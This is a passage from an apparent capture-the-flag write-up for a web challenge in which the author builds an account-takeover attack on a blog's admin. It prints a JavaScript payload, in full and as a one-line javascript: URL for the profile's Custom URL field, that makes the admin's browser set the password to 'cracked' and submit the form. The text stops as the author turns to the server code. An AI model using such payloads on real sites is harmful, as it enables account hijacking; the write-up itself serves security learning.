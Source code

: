 This means that by successfully executing JavaScript on the admin, we could make them go through a process that changes their password.

Recall that the admin can visit a link sent to them via `/post/report`, and they can click on the link to their profile if we send them the URL `/profile#author-website`.

> Note: We will see later in the write-up that it is possible to overwrite the admin's custom URL value and thus make them execute our password change script.

To create a script that changes the admin's password, we need four things:

- Change the value of the `username` field to match `admin`
- Change the value of the `new_password` field to `cracked`
- Change the value of the `new_password_confirm` field to `cracked`
- Click the `Edit Profile` button

Here is the script I wrote to accomplish this:

```javascript
let username = document.getElementById('username');
let new_password = document.getElementById('new_password');
let new_password_confirm = document.getElementById('new_password_confirm');
let submit = document.getElementById('submit');

username.value = 'admin';
new_password.value = 'cracked';
new_password_confirm.value = 'cracked';
submit.click();
```

This script can be executed in a single line:

```javascript
document.getElementById('username').value='admin';document.getElementById('new_password').value='cracked';document.getElementById('new_password_confirm').value='cracked';document.getElementById('submit').click();
```

We can try it on our profile by updating the `Custom URL` with this payload:

```
javascript:document.getElementById('username').value='admin';document.getElementById('new_password').value='cracked';document.getElementById('new_password_confirm').value='cracked';document.getElementById('submit').click();
```

![alert](/images/heroctfv5/web/blog_rename_admin.png)

The script works fine, but we cannot rename ourselves to `admin` since the username already exists.

However, when trying it with the username of the account I created, `test`, we can see that the script works and the password is changed.

But I notice something strange... Sometimes when I change my URL, it is not updated.

## Injecting a Custom URL on the Admin's Profile

To better understand this, let's look at the rest of the `/profile` route in the `routes.py` file:
